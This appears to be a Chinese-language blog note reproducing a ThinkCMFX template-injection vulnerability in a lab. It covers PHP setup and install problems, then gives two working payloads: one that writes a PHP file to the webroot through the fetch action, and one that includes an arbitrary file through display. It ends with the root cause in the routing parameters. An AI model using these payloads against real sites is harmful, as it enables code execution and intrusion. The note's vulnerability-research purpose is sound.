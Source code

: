 本文参考自：  
https://xz.aliyun.com/t/6626

0x00  
由于原文写的已经比较详细，故本文只记录我在复现分析的过程中碰到的问题及学到的知识

0x01  
搭建环境时，稳妥起见选择和原文一致的php版本  
这里注意：php安装包中，ts版本指的是线程安全版本，通常用在ISAPI模式中，而nts版本指的是非线程安全版本，通常用在fastcgi模式中  
ISAPI模式：php作为一个模块，比如作为apache的一个模块  
fastcgi模式：cgi模式的升级版，当作为一个独立的进程存在时，php-fpm是fastcgi的一种实现  
windows下：  
apache+php->
iis+php->
linux下：  
apache+php->
nginx+php->

搭建环境时，第三步报错，提示“thinkcmf 安装报错 Driver.class.php 　LINE: 350”，drop database thinkcmf后，重新安装成功，原因未知

由于我个人喜欢在不同的虚拟机下进行攻击测试（这样更贴近实战），当在虚拟机kali下访问时无反映，提示“just a demo for multi lang user! LANG IS en-us;”，后经测试发现是因为thinkcmf不能在英文系统下访问，改用虚拟机win10攻击机（中文版）访问，成功访问

使用firefox下插件HackBar Quantum，执行payload1  
```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```
成功在C:\phpstudy_pro\WWW\ThinkCMFX\下创建test.php，访问http://172.16.35.132/ThinkCMFX/test.php 能够成功访问

使用firefox下插件HackBar Quantum，执行payload2  
```
?a=display&templateFile=README.md
```
成功包含了README.md

0x02  
漏洞形成的根本原因，ThinkPHP框架规则中，可以通过g\m\a参数指定分组\模块\方法（这里的分组即应用，也就是可以通过g\m\a参数指定任意应用的模块、方法）  
应用是thinkcmf中的概念，一个blog即一个应用，一个商场即一个应用，具体参见thinkcmf官方文档：https://www.thinkcmf.com/docs/cmfx/app.html
